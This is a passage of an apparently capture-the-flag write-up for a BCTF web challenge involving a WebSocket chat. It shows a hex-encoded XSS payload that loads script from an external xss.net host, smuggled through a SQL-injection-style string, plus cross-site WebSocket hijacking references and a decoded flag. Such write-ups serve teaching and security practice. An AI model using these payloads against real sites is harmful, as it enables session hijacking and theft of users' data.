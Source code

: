                     if (data[0] == 's') { $("#i_msg").val(''); $("#sendstatus").attr('class', 'text-success').text('Message Sent');}
                    if (data[0] == 'e') { $("#i_msg").val(''); $("#sendstatus").attr('class', 'text-danger').text('Message Rejected');}
                }
            }
            connect();
        });
    </script>
    
- http://ironwasp.org/cswsh.html
- ws://146.148.60.107:9991/ws

![http://ww1.sinaimg.cn/large/c334041bgw1eqeh4j4q9ej20qu0dmmy6.jpg](http://ww1.sinaimg.cn/large/c334041bgw1eqeh4j4q9ej20qu0dmmy6.jpg)


    mysql> select hex('<script src=http://xss.net/0TLs5n?1426923466></script>');
    +--------------------------------------------------------------+
    | hex('<script src=http://xss.net/0TLs5n?1426923466></script>')                                                         	|
    +--------------------------------------------------------------+
    | 	
	3C73637269707***********3D687474703A2F2F7873732E6861636B7461736B2E6E65742F30544C73356E3F
    |
	+--------------------------------------------------------------+


    test: '),(0x3C73637269707***********3D687474703A2F2F7873732E6861636B7461736B2E6E65742F30544C73356E3F),('

![http://ww2.sinaimg.cn/large/c334041bgw1eqehatp9ujj209106t3yz.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eqehatp9ujj209106t3yz.jpg)

[http://146.148.60.107:9991/review?pass=QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==&id=24](http://146.148.60.107:9991/review?pass=QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==&id=24)

Page Content: Only admin in local network with correct password can review chat logs. But you've already had the flag you want,right?

    ➜  ~  echo -n "QkNURnt4c3NfaXNfbm90X3RoYXRfZGlmZmljdWx0X3JpZ2h0fQ==" | base64 -D
    BCTF{xss_is_not_that_difficult_right}